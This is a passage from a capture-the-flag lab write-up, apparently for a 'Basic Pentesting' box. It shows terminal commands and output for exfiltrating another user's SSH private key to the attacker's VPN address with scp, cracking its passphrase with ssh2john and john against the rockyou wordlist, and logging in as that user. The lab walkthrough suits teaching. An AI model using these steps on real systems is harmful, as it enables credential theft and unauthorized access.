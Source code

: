 ```sudo apt install openssh-client```
└─$ pwd              
/home/death/Lab-CTF/Basic-pentesting
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]

```
## I want this rsa at this location ```/home/death/Lab-CTF/Basic-pentesting```, and copy ur vpn ip mine is ```10.17.120.99``` 
### In Kay ,Let transfer it.
```bash
jan@basic2:/home/kay/.ssh$ scp id_rsa death@10.17.120.99:/home/death/Lab-CTF/Basic-pentesting/
Could not create directory '/home/jan/.ssh'.
The authenticity of host '10.17.120.99 (10.17.120.99)' can't be established.
ECDSA key fingerprint is SHA256:/buBatPVxdzFYyMDbKFqcBZbNSdBI/cZQ7WxNYDuVLE.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/home/jan/.ssh/known_hosts).
death@10.17.120.99's password: 
id_rsa                                                                                                                                                                                                      100% 3326     3.3KB/s   00:00    
jan@basic2:/home/kay/.ssh$ 
```
# 9. Let Crack using john
```sudo apt install john -y```
### Change it to john readable formate
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ ssh2john id_rsa > rsa
```
### Now brute force it
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ john rsa -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-04-04 23:08) 12.50g/s 1035Kp/s 1035Kc/s 1035KC/s bird..aries13
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
### I got the password ```beeswax``` 
### let change permision of id_rsa to use
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ chmod 600 id_rsa
```
# 10. Gaining access to kay
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ ssh kay@10.10.50.222 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

```
